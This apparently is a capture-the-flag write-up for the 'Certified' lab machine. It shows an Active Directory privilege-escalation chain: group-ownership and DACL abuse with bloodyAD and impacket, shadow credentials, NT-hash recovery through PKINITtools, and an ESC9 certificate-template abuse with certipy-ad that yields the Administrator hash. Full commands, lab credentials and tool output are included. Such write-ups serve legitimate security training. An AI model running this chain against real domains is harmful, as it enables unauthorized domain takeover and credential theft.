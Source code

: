 ![Certified](Certified_images/pwned.png)

# User flag

![nmap](Certified_images/nmap.png)

Initial nmap scan reveals that this is an Active Directory scenario. Distinguishable by certain ports and services.

Since I have initial credentials for judith.mader, I will try to enumerate the domain with bloodhound.

![bloodhoundput](Certified_images/bloodhoundout.png)

Now I can insert the data into bloodhound and begin the enumeration.

![path](Certified_images/path.png)

![ca](Certified_images/ca.png)

With the information I've gathered, I can devise a plan for taking over the domain.

1. Making judith.mader the owner of the Management group.
2. Leveraging the GenericWrite permission of the mentioned group against the svc account to generate shadow credentials.
3. Using the svc account to reset the password of ca_operator.
4. Using the ca_operator account to abuse certificates.

```
bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 set owner Management judith.mader - makes Judith the owner of the Management group.

impacket-dacledit certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41 -principal judith.mader -target Management -action write -rights WriteMembers - grants Judith permission to add users into the Management group.

bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 add groupMember Management judith.mader - adds Judith to the Management group.

bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 add shadowCredentials management_svc - adds shadow credentials to the management_svc account.
```
![shadowcreds](Certified_images/shadowcreds.png)

I'll grab the PKINIttools repo now as it'll be very useful for further escalation. I'll try to get a TGT as it was mentioned above.

![asrepkey](Certified_images/asrepkey.png)

I have the .ccache file now, but what interests me more is the AS-REP key. I'll be able to get the hash of management_svc with it.

```
sudo ntpdate 10.10.11.41 && python PKINITtools/getnthash.py -key 'f4a491c17a0c030ad9c4aa30d3b34a2afc21fa635a427eb1525d7f604f530590' -dc-ip 10.10.11.41 certified.htb/management_svc

Note: I used the ntpdate command here because kerberos has been throwing clock skew errors at me. Joining it together with my intended command solved the issue, but it required several tries.
```
![nthash](Certified_images/nthash.png)

With this hash in hand, I can remote into the machine and collect the user flag.

# Root flag

```
EXPORT KRB5CCNAME=path/to/.ccache/file
sudo ntpdate 10.10.11.41 && bloodyAD --host DC01.certified.htb -d certified.htb --dc-ip 10.10.11.41 -k set password ca_operator password123 - Changes the password of ca_operator to password 123. In order to use the -k flag, the .ccache file must be set as the $KRB5CCNAME environmental variable.
```
I am going to use a tool called certipy-ad, in order to search for potentially dangerous certificates I could exploit.
```
certipy-ad find -vulnerable -stdout -dc-ip 10.10.11.41 -target-ip 10.10.11.41 -u ca_operator@certified.htb -p password123
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```
The lack of security extensions here will allow me to make use of the 'CertifiedAuthentication' template to get the Administrator's hash!

```
certipy-ad account update -username management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator - Sets the ca_operator User Principal Name to Administrator. Since AD CS relies on the UPN when issuing certificates, any certificate requested for ca_operator will now be issued as Administrator.

certipy-ad req -username ca_operator@certified.htb -p password123 -ca certified-DC01-CA -template CertifiedAuthentication -debug - Requests a certificate for ca_operator, but since its UPN is now Administrator, the issued cert will belong to Administrator.
```
![pfx](Certified_images/pfx.png)

I will use the extracted .pfx certificate to authenticate via PKINIT and retrieve the NTLM hash for Administrator.

![adminhash](Certified_images/adminhash.png)

Success! Now I will remote into the pc as admin and get both flags.

![root](Certified_images/root.png)

Rooted!
